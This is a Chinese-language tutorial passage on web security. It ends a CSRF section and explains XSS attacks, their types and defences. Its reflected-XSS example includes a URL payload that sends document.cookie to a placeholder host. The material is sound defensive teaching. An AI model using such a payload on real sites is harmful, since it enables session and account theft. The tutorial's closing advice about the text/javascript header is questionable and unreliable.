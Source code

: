     如果是开发一个全新的系统，则抵御 CSRF 的选择要大得多。笔者建议对于重要的服务，可以尽量使用 XMLHttpRequest 来访问，
    这样增加 token 要容易很多。另外尽量避免在 js 代码中使用复杂逻辑来构造常规的同步请求来访问需要 CSRF 保护的资源，
    比如 window.location 和 document.createElement(“a”) 之类，这样也可以减少在附加 token 时产生的不必要的麻烦。
    
    最后，要记住 CSRF 不是黑客唯一的攻击手段，无论你 CSRF 防范有多么严密，如果你系统有其他安全漏洞，比如跨站域脚本攻击 XSS，
    那么黑客就可以绕过你的安全防护，展开包括 CSRF 在内的各种攻击，你的防线将如同虚设。
    ```

### XSS <div id='xss'></div>
* 动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。
* XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。
    * XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。
    * 不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。
    * XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。
* XSS通常可以分为两大类：
    * 一类是存储型XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。
    * 另一类是反射型XSS，主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。
* XSS目前主要的手段和目的如下：
    ```
    盗用cookie，获取敏感信息。
    利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
    利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
    利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
    在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果
    ```
* XSS的原理
    * Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，
    并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

    * 接下来以反射性XSS举例说明XSS的过程：
    ```
    现在有一个网站，根据参数输出用户的名称，例如访问url：http://127.0.0.1/?name=astaxie，就会在浏览器输出如下信息：
    hello astaxie
    
    如果我们传递这样的url：http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;,
    
    这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，
    
    如下这样的url：http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'
    +document.cookie&#60;/script&#62;，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。你也许会说，
    
    这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，
    
    你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，
    
    相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的
    
    工具来检查是否能盗取那个用户的账户。
    ```
* 如何预防XSS
    * 很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。
    * 目前防御XSS主要有如下几种方式：
        * 过滤特殊字符
            * 避免XSS的方法之一主要是将用户所提供的内容进行过滤。
        * 使用HTTP头指定类型
            * header("Content-Type","text/javascript");
            * 这样就可以让浏览器解析javascript代码，而不会是html输出。

